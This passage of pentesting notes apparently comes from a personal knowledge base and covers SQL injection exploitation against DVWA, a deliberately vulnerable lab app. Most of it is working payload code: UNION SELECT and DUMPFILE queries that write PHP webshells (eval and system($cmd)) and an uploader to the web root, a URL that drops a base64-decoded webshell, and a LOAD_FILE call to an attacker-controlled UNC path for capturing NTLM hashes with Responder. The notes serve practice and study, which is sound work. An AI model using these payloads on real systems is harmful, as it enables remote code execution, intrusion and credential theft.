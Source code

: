 SQL Query for reference.

```sql
SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'
```

Convert it to SQLi exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'#
```

```
"http://dvwa.local/dvwa/eval_php.php?evaluate=phpinfo()"
```

`<insert screenshots>`

- **Base64 encoded**

```
"http://dvwa.local/dvwa/eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}"
```

###### 2.2.4.1.2 - NTLM Hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```sql
' UNION SELECT NULL, LOAD_FILE('\\\\<attacker_IP>\\snare.txt')#
```

##### 2.2.4.2 - Exploit via DUMPFILE

###### 2.2.4.2.1 - Simple Webshell

TODO: Replicate the methods from this video https://www.youtube.com/watch?v=FjgKtBAiLKQ

```sql
CREATE TABLE `dvwa`.`user_input`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_input values('<?php $cmd=$_GET["cmd"];system($cmd);?>')

SELECT * INTO DUMPFILE '/var/www/html/dvwa/shell.php' FROM user_input;
```

###### 2.2.4.2.2 - Uploader

```sql
CREATE TABLE `dvwa`.`user_upload`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_upload values('<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER["PHP_SELF"]; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>
```